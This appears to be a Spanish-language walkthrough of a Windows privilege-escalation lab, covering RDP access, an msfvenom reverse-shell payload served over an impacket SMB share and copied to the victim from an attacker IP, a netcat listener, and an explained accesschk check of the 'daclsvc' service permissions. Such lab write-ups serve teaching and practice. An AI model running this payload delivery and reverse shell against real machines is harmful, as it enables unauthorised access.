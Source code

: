 Comenzamos conectandonos a la maquina por xfreerdp
![[Pasted image 20240718133955.png]]

Una vez dentro para generarnos la reverse shell tenemos que enviar un paylaod a la maquina victima, primero lo creamos con msfvenom
![[Pasted image 20240718132329.png]]

Y lo importamos por un modulo llamado `smbserver` 
```Bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
![[Pasted image 20240718134203.png]]

En la maquina victima nos descargamos el fichero con el sigueinte comando
```
copy \\10.9.0.184\kali\reverse.exe reverse.exe
```
![[Pasted image 20240718134226.png]]
![[Pasted image 20240718134314.png]]

Una vez descargado nos ponemos en escucha con netcat y nos generamos la reverse shell
![[Pasted image 20240718134918.png]]


# **Service Exploits - Insecure Service Permissions**
Ahora utilizaremos la herramienta `accesschk.exe` de sysinternal para revisar los permisos del usuario `user` en el servicio `daclsvc`
```
`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
```
![[Pasted image 20240718140021.png]]
- **C:\PrivEsc\accesschk.exe**: Es la ruta completa del ejecutable `accesschk.exe`. Este programa es una herramienta de línea de comandos desarrollada por Sysinternals (ahora parte de Microsoft) que se utiliza para verificar los permisos de acceso a objetos del sistema, como archivos, directorios, claves de registro, etc.
- **/accepteula**: Es un parámetro que indica que el usuario acepta el acuerdo de licencia de usuario final (EULA, End User License Agreement) de Sysinternals automáticamente sin necesidad de confirmación manual.
- **-uwcqv**: Estos son los parámetros que se pasan al programa `accesschk.exe`, y tienen los siguientes significados:
    - **-u**: Muestra la lista de usuarios que tienen acceso al objeto especificado.
    - **-w**: Muestra los permisos de escritura (Write) para el usuario especificado (`user` en este caso).
    - **-c**: Muestra el Control Total (Full Control) para el usuario especificado.
    - **-q**: No muestra mensajes de encabezado en la salida del comando (Quiet mode, modo silencioso).
    - **-v**: Muestra información detallada (Verbose mode, modo detallado).
- **user**: Es el nombre del usuario para el cual se están consultando los permisos de acceso en el objeto especificado por el siguiente parámetro.
- **daclsvc**: Es el nombre del objeto (archivo, directorio, etc.) para el cual se están verificando los permisos de acceso para el usuario especificado (`user`).
